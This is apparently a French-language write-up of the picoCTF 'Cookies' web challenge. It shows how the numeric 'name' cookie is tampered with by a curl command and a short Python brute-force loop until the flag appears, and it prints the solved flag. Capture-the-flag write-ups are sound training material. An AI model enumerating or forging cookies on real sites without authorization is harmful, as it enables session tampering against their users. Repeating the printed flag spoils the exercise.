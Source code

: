 # Cookies

## 0x1 Description

>Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:17781/

## 0x2 Analyse

Encore une fois, la description est très explicite, nous allons devoir jouer avec les cookies et il y en aura surement un meilleur que les autres

Après avoir entré le nom du premier biscuit qu'ils nous propose, nous avons la structure du cookie qui nous est donnée:

![Cookie's structure](./IMG/cookie.png)

Pas besoin d'être un génie pour comprendre qu'il va falloir incrémenter la valeur contenue dans **name**

## 0x3 Résolution avec cURL

Le principe est de faire une petite boucle qui va incrémenter la valeur et appeler la vérification avec cette donnée.

Ce qui donne après quelques itérations le résultat suivant:

>curl --cookie "name=18" http://mercury.picoctf.net:17781/check
>
>flag = picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

## 0x4 Vérification avec Cookie Quick Manager

Avec n'importe quel éditeur de cookie, vous pouvez le modifier et une fois la page rechargée voir apparaitre la solution:

![flag](./IMG/flag.png)

## 0x5 Résolution avec un script en python

Comme expliqué , nous allons faire une boucle qui testera toutes les possibilité de cookie, pour ce faire, voici le code que j'ai écrit:

```python
#!/usr/bin/env python

import pwn
import requests
import re

regex = "picoCTF{.*?}"
url = "http://mercury.picoctf.net:17781/check"
s = requests.Session()
boucle = True

def Exploit():
    pwn.info("Searching for the flag")
    while boucle:
        for miaou in range (0,100):
            if miaou % 5 == 0:
                if miaou > 0:
                    pwn.info("{} iterations".format(miaou))
                else:
                    pwn.info("{} iteration".format(miaou))
            cookies = {'name': str(miaou)}
            req = s.get(url, cookies=cookies)
            req = req.content
            result = re.findall(regex, str(req))
            flag = result
            if result:
                for f in flag:
                    pwn.warn("After {} iterations".format(miaou))
                    pwn.warn("Cookie was: {}".format(cookies))
                    pwn.success("Flag is: {}".format(f))
                    break
                return
Exploit()
```
